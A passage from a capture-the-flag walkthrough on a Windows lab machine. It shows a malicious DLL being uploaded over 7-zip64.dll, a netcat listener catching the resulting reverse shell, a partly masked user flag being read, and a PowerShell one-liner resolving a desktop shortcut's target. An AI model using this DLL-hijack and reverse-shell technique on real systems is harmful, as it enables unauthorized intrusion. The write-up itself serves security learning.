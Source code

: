 #### Shell

I'll upload that Dll over `7-zip64.dll` and wait. When the task runs,
there's a connect at my listening `nc`:



    oxdf@hacky$ rlwrap -cAr nc -lnvp 9003
    Listening on 0.0.0.0 9003
    Connection received on 10.10.11.147 56824
    Microsoft Windows [Version 10.0.20348.643]
    (c) Microsoft Corporation. All rights reserved.

    c:\share>



And I can finally get `user.txt`:



    c:\Users\GinaWild\Desktop>type user.txt
    c7de9935************************



## Shell as bpassrunner

### Enumeration

#### Desktop Link

There's not much else in GinaWild's home directory, but there is a file
worth noting in `C:\Users\Public\Desktop`:



    c:\Users\Public\Desktop>dir
     Volume in drive C has no label.
     Volume Serial Number is BE61-D5E0

     Directory of c:\Users\Public\Desktop

    11/10/2022  07:40 PM    <DIR>          ..
    03/18/2022  01:19 PM             1,111 bAD Passwords.lnk
                   1 File(s)          1,111 bytes
                   1 Dir(s)   9,230,606,336 bytes free



Files in this folder will appear on any user's desktop.

[This StackOverFlow post](https://stackoverflow.com/a/42762873) show how
to get the target using PowerShell:



    c:\Users\Public\Desktop>powershell -c "$sh = New-Object -ComObject WScript.Shell; $sh.CreateShortcut('.\bAD Passwords.lnk').TargetPath"
    C:\Get-bADpasswords\run.vbs

